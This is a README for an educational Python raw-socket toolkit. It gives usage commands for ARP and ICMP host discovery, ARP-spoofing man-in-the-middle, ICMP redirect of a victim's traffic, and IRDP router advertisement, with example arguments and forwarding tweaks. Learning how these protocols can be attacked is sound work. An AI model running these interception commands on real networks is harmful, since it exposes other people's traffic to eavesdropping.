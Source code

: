 # Agave

## About
Collection of scripts working with raw socket. Written for self education on common network protocols.

Efficiency and best practices are out of the scope of this repository. These are "learn by doing" scripts gathered together.

## Requirements
- Linux, for these scripts use raw socket.
- SUDO privileges, for the very same reason.

## Usage

### General Info

#### Network interfaces
Lists information for all network interfaces, or a single one identified by name.
```
python3 -m agave info interfaces [name]
```

### ARP

#### Passive hosts discovery
Listen for ARP messages, collecting data on the host in the network.
```
python3 -m agave arp listen
```

#### Active hosts discovery
Sends ARP requests to all the IP addresses in a given subnet to solicit replies in order to discover hosts.
```
# Start listening for messages
python3 -m agave arp listen
# Change terminal
python3 -m agave arp solicit {interface} {subnet} {your_ip} {your_mac}
# Example with arguments
python3 -m agave arp solicit wlp3s0 192.168.1.0/24 192.168.1.100 aa:bb:cc:11:22:33
```

#### Man in the middle
Sends ARP messages in order to achieve a man in the middle attack.
```
# Assuming we want to intercept Bob and Alice
python3 -m agave arp mitm {interface} {your_ip} {alice_mac} {alice_ip} {bob_mac} {bob_ip}
# Example with arguments
python3 -m agave arp mitm wlp3s0 aa:bb:cc:11:22:33 aa:bb:cc:44:55:66 192.168.1.10 aa:bb:cc:77:88:99 192.168.1.1
```
If working, you'll be able to sniff the traffic exchanged by the victims. In order to allow the victims to keep communicate with each other, you need to enable IP forwarding. Disable forwarding might be used to prevent communications.
```
# Set to 0 to stop forwarding
sudo sysctl net.ipv4.ip_forward=1
```
If working, you'll be able to see the poisoned entry in the ARP table. You'll probably notice two entries with the same MAC address. On Linux, you can check it with:
```
arp
```

### ICMP

#### Hosts discovery
```
python3 -m agave icmp discovery {subnet}
python3 -m agave icmp discovery 192.168.1.0/24
```

#### Host redirect
```
python3 -m agave icmp redirect {target} {attacker} {victim} {gateway}
```
Example: redirects 192.168.0.3's (victim) messages for Google server DNS (target) to 192.168.0.2 (attacker). 192.168.0.1 is the router the victim is gonna use to reach the target.
```
python3 -m agave icmp redirect 8.8.8.8 192.168.0.2 192.168.0.3 192.168.0.1
```
The command above is enough to get a couple of messages from the victim. But your system will not forward the messages to their destination, and will tell the victim to use another router to reach the destination instead. So you'll need also to:
```
# Enable forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/conf/*/forwarding
# Prevent your system from redirecting the victim back to the right router
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### IRDP
I've never tried this one, I saw it and decided to implement it. I just know the messages format is correct (or at least it is for Wireshark).

#### Solicitation
You need to use a sniffer to listen for replies.
```
python3 -m agave irdp solicit
```

#### Advertise
General command to advertise a list of routers.
```
python3 -m agave irdp advertise {preference} {router_1_ip} ... {router_n_ip}
```
Example:
```
python3 -m agave irdp advertise 100 192.168.1.10 192.168.1.20
```
